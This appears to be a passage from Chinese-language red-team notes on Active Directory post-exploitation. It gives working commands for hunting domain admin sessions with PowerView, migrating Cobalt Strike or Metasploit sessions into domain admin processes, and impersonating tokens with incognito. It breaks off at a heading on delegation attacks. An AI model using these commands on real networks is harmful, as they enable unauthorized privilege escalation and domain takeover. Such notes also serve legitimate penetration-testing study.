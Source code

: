 查看域控机器有谁登陆过<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611394478226-e37ba0d1-291e-467d-aa5b-cd8ae759c3a2.png#height=297&id=UGpOB&originHeight=396&originWidth=469&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=352)<br /> <br />查看用户登陆过哪台机子<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611394478460-faf843ac-1712-43b6-9cf7-ff0a566135cb.png#height=218&id=MQBT0&originHeight=623&originWidth=1188&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=416)<br /> 
<a name="3CIw6"></a>
#### powershell Invoke-UserHunter：找到域内特定的用户群
 需要管理员权限打开powershell，可能有报错，需要powershell的权限啥的，百度解决就ok了，输入Import-Module .\PowerView.ps1    导入脚本<br />然后输入查看域管登陆过哪个机器 Invoke-UserHunter<br />             Invoke-UserHunter -UserName "用户名"<br /> ![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611847242628-6a2d98a9-e057-46aa-a9ad-fc53e67e3ae3.png#height=292&id=QGoui&originHeight=389&originWidth=581&originalType=binary&ratio=1&rotation=0&showTitle=false&size=8599&status=done&style=none&title=&width=436)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1621680849615-e67237d4-ba84-4b94-8d51-8ab4ab030b88.png#height=111&id=i3wpW&originHeight=221&originWidth=1340&originalType=binary&ratio=1&rotation=0&showTitle=false&size=208124&status=done&style=none&title=&width=670)<br /> 
<a name="ObV24"></a>
### 模拟域管理员
<a name="XB2Aw"></a>
#### cs或者msf进程迁移到域管理员进程
cs上线后inject id 进程迁移到域管
<a name="YpNAE"></a>
##### msf
进程迁移也可以<br />migrate id<br />--------------------------------------------------------------------------<br />meterpreter > getuid  查看当前权限<br />meterpreter > use incognito #加载incognito<br />meterpreter > list_tokens -u #列出AccessToken<br />meterpreter > impersonate_token "NT AUTHORITY\SYSTEM" #模拟system用户，getsystem命令即实现了该命令。如果要模拟其他用户，将token名改为其他用户即可<br />meterpreter > rev2self #返回到之前的AccessToken权限

<a name="4qqub"></a>
#### incognito2
incognito.exe list_tokens -u<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611394479070-cc6515d3-baa1-41d7-81a0-a43b290d6f16.png#height=387&id=UZAAc&originHeight=516&originWidth=595&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=446)<br /> <br />incognito.exe execute -c "完整的Token名" cmd.exe<br />例如：模拟system权限用户<br />incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe<br /> <br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611394479454-0fa54a29-4c25-454c-a89e-507d445c03b9.png#height=507&id=a9IJ3&originHeight=676&originWidth=1243&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=932)<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611394479737-89f7c773-8da0-48f1-a6f3-38881c426fe4.png#height=557&id=UVAwp&originHeight=742&originWidth=1318&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=989)


<a name="aO5uF"></a>
## 域内委派攻击
[委派.xmind](https://www.yuque.com/attachments/yuque/0/2022/xmind/1345801/1667408258940-6c120f2c-1df1-4097-bc5a-d21c90d6fa19.xmind?_lake_card=%7B%22src%22%3A%22https%3A%2F%2Fwww.yuque.com%2Fattachments%2Fyuque%2F0%2F2022%2Fxmind%2F1345801%2F1667408258940-6c120f2c-1df1-4097-bc5a-d21c90d6fa19.xmind%22%2C%22name%22%3A%22%E5%A7%94%E6%B4%BE.xmind%22%2C%22size%22%3A242750%2C%22type%22%3A%22%22%2C%22ext%22%3A%22xmind%22%2C%22source%22%3A%22%22%2C%22status%22%3A%22done%22%2C%22mode%22%3A%22title%22%2C%22download%22%3Atrue%2C%22taskId%22%3A%22u76ca47c7-53fd-4b42-b3b5-8c9d44b371c%22%2C%22taskType%22%3A%22upload%22%2C%22__spacing%22%3A%22both%22%2C%22id%22%3A%22u7047b163%22%2C%22margin%22%3A%7B%22top%22%3Atrue%2C%22bottom%22%3Atrue%7D%2C%22card%22%3A%22file%22%7D)<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1667407823546-a3b04fe5-ee61-46b8-8f71-b44bd128cfbf.png#clientId=u935d02d8-8334-4&from=paste&height=710&id=u2ab564e3&originHeight=888&originWidth=1791&originalType=binary&ratio=1&rotation=0&showTitle=false&size=280232&status=done&style=none&taskId=u7801172e-98f3-43d9-b59f-2ba9e435d42&title=&width=1432.8)
<a name="vkGUY"></a>
### 非约束性委派攻击(没有约束，完全信任该主机所有服务)
<a name="drmuL"></a>
#### 大白话解释：